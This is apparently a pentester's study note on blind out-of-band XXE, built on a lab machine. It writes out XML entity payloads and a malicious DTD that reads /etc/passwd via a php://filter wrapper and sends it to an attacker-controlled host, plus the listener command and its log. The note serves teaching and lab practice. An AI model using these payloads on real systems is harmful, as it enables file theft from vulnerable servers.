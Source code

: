 ```yaml
---
description: >-
  XXE Blind Out of Band
title:  XXE Blind Out of Band             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Blind Out of Band]                     # Change Templates to Writeup
tags: [exploitation, xxe blind out of band, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206005533.png)

In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```bash
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![Description](/assets/img/Pasted image 20230206005654.png)
Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![Description](/assets/img/Pasted image 20230206005910.png)
```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
-   Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
-   Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
-   Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206013133.png)
Examples:
[[Fulcrum#^]]